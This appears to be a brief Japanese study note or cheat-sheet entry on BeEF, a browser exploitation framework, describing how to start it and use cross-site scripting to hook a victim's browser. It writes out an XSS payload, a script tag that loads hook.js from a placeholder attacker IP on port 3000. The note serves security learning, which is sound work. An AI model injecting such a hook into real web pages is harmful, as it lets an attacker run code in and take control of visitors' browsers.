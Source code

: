 # BeEF

* BeEF

1. ブラウザ向けの脆弱性を検証するツール(XSS)
2. メニューから`Beef start`を選択
3. XSSでBeEFのスクリプトを実行させて制御を奪う
    `<script src=http://攻撃端末のIPアドレス:3000/hook.js></script>`
